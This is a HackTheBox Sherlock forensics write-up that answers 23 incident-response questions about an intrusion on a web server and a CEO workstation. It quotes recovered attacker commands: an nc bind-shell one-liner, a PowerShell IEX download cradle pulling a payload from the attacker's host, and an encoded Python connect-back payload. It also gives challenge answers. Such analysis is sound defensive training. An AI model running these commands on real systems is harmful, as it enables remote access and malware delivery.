

# [HackTheBox Sherlocks - APTNightmare](https://app.hackthebox.com/sherlocks/APTNightmare)
Created: 03/06/2024 05:32
Last Updated: 03/06/2024 23:56
* * *

**Scenario:**
We neglected to prioritize the robust security of our network and servers, and as a result, both our organization and our customers have fallen victim to a cyber attack. The origin and methods of this breach remain unknown. Numerous suspicious emails have been detected. In our pursuit of resolution, As an expert forensics investigator, you must be able to help us.

* * *
>Task 1: What is the IP address of the infected web server?


First, I filtered for http protocol then we can see which IP address is the webserver and which one is the attacker IP address
```
192.168.1.3
```

>Task 2: What is the IP address of the Attacker?
```
192.168.1.5
```

>Task 3: How many open ports were discovered by the attacker?


If we're looking at this image, we can see that the attacker conducted port scan on web server 

I used `ip.dst == 192.168.1.5 && ip.src == 192.168.1.3 && tcp.flags.syn == 1 && tcp.flags.ack == 1` to filter for response from web server since we know that if targeted port sent SYN, ACK packet back that mean that port is opened

To make things easier, lets export this filter a file

We will see that if we filtered for unique port, then we will found 15 ports that responsed back to the attacker with SYN,ACK packet but 15 is not the right answer yet


If we go back to Wireshark and filter for each port then we can see that at first port 5555 sent RST, ACK back to the attacker and later it was used for reverse shell
```
14
```

>Task 4: What are the first five ports identified by the attacker in numerical order during the enumeration phase, not considering the sequence of their discovery?
```
25,53,80,110,119
```

>Task 5: The attacker exploited a misconfiguration allowing them to enumerate all subdomains. This misconfiguration is commonly referred to as (e.g, Unrestricted Access Controls)?


Enumerate domain, it has to be DNS so lets filter for it

the attacker somehow sent DNS query to web server which was response back with all subdomains


The exploited of this misconfiguration is called DNS Zone Transfer
```
DNS Zone Transfer
```

>Task 6: How many subdomains were discovered by the attacker?


```
9
```

>Task 7: What is the compromised subdomain (e.g., dev.example.com) ?


Later, the attacker tried to brute force login page on webserver which we can obtain subdomain here
```
sysmon.cs-corp.cd
```

>Task 8: What email address and password were used to log in (e.g., user@example.com:password123)?

Eariler we know that if the attacker used invalid credential, web server will response back with HTTP 200 

So I used `(ip.addr == 192.168.1.5 && http) && (http.response.code == 302)` to look for Redirect response after authentication was successful

Here is credential in url decoded format

We can obtain unformatted credential here and don't forget to add domain for admin user to answer this task
```
admin@cs-corp.cd:Pass@000_
```


After login, the attacker was redirected to `/dashboard.php` and look like this dashboard was used to execute commands

The attacker started with `du` and `ps`

And this is how web server responded back, look like we can bypass this to execute arbitrary command

>Task 9: What command gave the attacker their initial access ?


We know that an `/dashboard.php` can be abused to execute arbitrary command here and look like an attacker successfully executed to listen connection on port 5555 and its a bind shell (not reverse shell as we thought)
```
|mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe
```

>Task 10: What is the CVE identifier for the vulnerability that the attacker exploited to achieve privilege escalation (e.g, CVE-2016-5195) ?


After the attacker connected to bind shell on port 5555, he used [pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) which is a local privilege escalation vulnerability on Linux

```
CVE-2021-4034
```

>Task 11: What is the MITRE ID of the technique used by the attacker to achieve persistence (e.g, T1098.001)?


After successfully obtained root privilege, the attacker downloaded 3 files from his HTTP server to `/var/www/html/download/`

The attacker tried to edit cronjob using nano but couldnt, so he replaced crontab file for persistence

Created a cronjob is T1053.003 according to MITRE ATT&CK
```
T1053.003
```

>Task 12: The attacker tampered with the software hosted on the 'download' subdomain with the intent of gaining access to end-users. What is the Mitre ATT&CK technique ID for this attack?


```
T1195.002
```

>Task 13: What command provided persistence in the cs-linux.deb file?


Lets grab this file

Then we will use `dpkg-deb -x cs-linux.deb ./out/` to decompress it

Look like it was a python script for something

```
import base64
import zlib

# Encoded and compressed payload
encoded_compressed_payload = 'eJw9UN9LwzAQfl7+irCHNcEsrqMbOmxBxAcRGTjfRKRNT1uaJiWXaqfo325Dh/dwx3f33Xc/6razzlO0qgEvvnRdiCJH2CYCveuVF75uQVgkxKLEI3po2RxUZanCpa5NP9DFgmYZ/T2XY2Pl1JyTN+voQGtDXW7egcUrviMz746jn2E6zZJTYGtxwof9zf3r4enx9vqBB55U1hhQnrEovlzLeHshY7mJRDIaD4zCQd6QGQwKOh+kw6oSNUDHNpzodLpA9qbLVcOi7C4SKB2oDzYKPK9eSJmesObks6o1UA2GlfxKj3Ll2X91OaU5gQEUC0+SJSjbdg4Q2fQvWWyTkCwhMMV3hNEOfzj5Axx7baM='

# Decode from base64
decoded_data = base64.b64decode(encoded_compressed_payload)

# Decompress using zlib
decompressed_data = zlib.decompress(decoded_data)

# Print the decompressed data
print(decompressed_data.decode('utf-8'))
```

I asked ChatGPT to write a script to decode it without directly executed base64 payload


Then we will have this decoded python script that will create a connection to the attacker IP address on port 4444 for persistence

```
echo cs-linux && >> ~/.bashrc
```

>Task 14: The attacker sent emails to employees, what the name for the running process that allowed this to occur?


After moved provided ubuntu profile to plugin/overlays/linux then we can use `linux_pstree` plugin to list all process in tree then we can see that citserver is the one we're looking for

```
citserver
```

>Task 15: We received phishing email can you provide subject of email ?


I tried to find any log related to mail and citadel but didn't find anything so the only way I could think of was to used `strings Memory_WebServer.mem | grep "Subject:"` to display email header that was embbed in this memory file directly and look like it worked

```
Review Revised Privacy Policy
```

>Task 16: What is the name of the malicious attachment?


I used Jumplist that found on `C:\Users\ceo-us\AppData\Roaming\Microsoft\Windows\Recent\AutomaticDestinations` to find this answer, we can see that `policy.docm` is the suspicious macro document file and it is what we're looking for

```
policy.docm
```

>Task 17: Please identify the usernames of the CEOs who received the attachment.


I used `strings Memory_WebServer.mem | grep "Return-Path"`, we only got 1 username but we have ceo-us user folder in disk file collected with KAPE so it has to be ceo-ru and us

```
ceo-ru, ceo-us
```

>Task 18: What is the hostname for the compromised CEO?


I queried this registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` to obtain a hostname of this machine that has ceo-us as one of users
```
DESKTOP-ELS5JAK
```

>Task 19: What is the full path for the malicious attachment?


```
C:\Users\ceo-us\Downloads\policy.docm
```

>Task 20: Can you provide the command used to gain initial access?


I found this command on PowerShell event log which later will be answered what kind of threat is this file
```
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:806/a'))
```

>Task 21: Provide a Popular threat label for the malicious executable used to gain initial access?


On wireshark, I search for port 806 that we found from previous task

We can see that its a large size based64 encoded powershell script  


So I copied it content and saved as sus.ps1


Then generate file hash


Searched on VirusTotal, Its malicious as expected but still not the one we're looking for

To obtain the right answer, we need to go to Dropped Files and we can see there is one malicious exe file right there


It is the one, we're looking for which is a cobalt strike beacon
```
trojan.cobaltstrike/beacon
```

>Task 22: What is the payload type?


I used an file that the attacker uploaded to web server with [1768.py](https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py) to obtained this answer > `python3 1768.py cs-windows.exe`
```
windows-beacon_http-reverse_http
```

>Task 23: What is task name has been add by attacker?


I went to Schedule task folder and there is 1 task that was modified when an incident occurs

And look like this is the one
```
WindowsUpdateCheck
```


* * *